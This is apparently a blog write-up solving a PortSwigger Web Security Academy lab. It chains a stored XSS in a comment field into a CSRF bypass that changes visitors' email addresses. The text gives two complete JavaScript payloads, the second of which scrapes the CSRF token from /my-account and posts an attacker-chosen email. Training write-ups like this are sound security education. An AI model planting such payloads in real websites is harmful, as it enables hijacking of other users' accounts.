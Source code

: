 ```yaml
---
title: PortSwigger Labs - Stored XSS to CSRF to change users email
date: 2021-07-04 11:36:00 +0200
categories: [PortSwigger-Labs]
tags: [xss, stored-xss, csrf, csrf-token-bypass]     # TAG names should always be lowercase
dirImg: /assets/img/PortSwigger/Stored-XSS-to-CSRF-to-change-users-email
toc: false
---
```



## Description

Link : https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

![]({{ page.dirImg }}/20210701-200938.png){: .shadow}


## Writeup

We log in as the **wiener** user and we are redirected to our account page (`/my-account`):

![]({{ page.dirImg }}/20210701-201401.png){: .shadow}

The page exposes a `update email` functionality and it is protected by a CSRF token.

We can use Burp to intercept the HTTP requests in order to understand the `update email` mechanism in detail.

We change the email to **luca@normal-user.net** and here is the request:

![]({{ page.dirImg }}/20210701-202035.png){: .shadow}


The email and the CSRF token are sent in the POST data after being urlencoded. Given that the request is protected by a CSRF token it is necessary to provide a valid token in order for the request to be valid.  
This is where the XSS comes handy: if we manage to execute javascript in the user's context, we will be able to dynamically scrape the valid CSRF token from the page and submit it together with the email.

Let's look for the XSS then.

The XSS can be easily spotted by testing the trivial `<script>` tag on the _comment_ text area

![]({{ page.dirImg }}/20210701-203757.png){: .shadow}

And Javascript is executed.

![]({{ page.dirImg }}/20210701-203902.png){: .shadow}


We can now use the XSS to bypass the CSRF protection and perform a CSRF attack in order to change the password of the users who will visit the page where the XSS is stored.  
Since the mail is changed with a POST request, we need to trick the user to perform a POST request to the `/my-account/change-email` endpoint, submitting the new email and the valid CSRF token.  


We wrote some lines of Javascript for the purpose (i.e. our XSS payload).  
`email` and `csrf` token should be urlencoded in order to conform to the POST data format we previously observed in Burp:

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', '/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send(new URLSearchParams({
    'email': 'pwned@gmail.com',
    'csrf': document.getElementsByName('csrf')[0].value
    })
    );
</script>
```

However it is not successful.  
Taking some steps back to spot the issue, we notice that the CSRF token is only issued after the user visits the account page, namely `/my-account`. Such behavior caused the `document.getElementsByName('csrf')[0].value` to be null, as the token was not there yet.

We can easily fix the issue by first issuing a request to `/my-account` and scraping the CSRF token from the response. Therefore, our new XSS payload looks like:



```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() { 
        var token = this.response.getElementsByName('csrf')[0].value;
	xhr.open('POST', '/my-account/change-email', true);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send(new URLSearchParams({
	    'email': 'pwned@gmail.com',
	    'csrf': token
	    })
	    );
};
xhr.open('GET', '/my-account', true);
xhr.responseType = "document";
xhr.send();

</script>
```

Some notes on the code:

- When `this` is used in the context of a DOM event handler, it is set to the element on which the listener is placed (`xhr` in this case).
- The `onload` event triggers when the response is fully loaded
- We prepare the `onload`event handler before the request to `my-account` takes place to make sure that the handler will be ready.

We completed the lab successfully. Now every users who will visit the page where our XSS is stored will have the email changed to `pwned@gmail.com`.






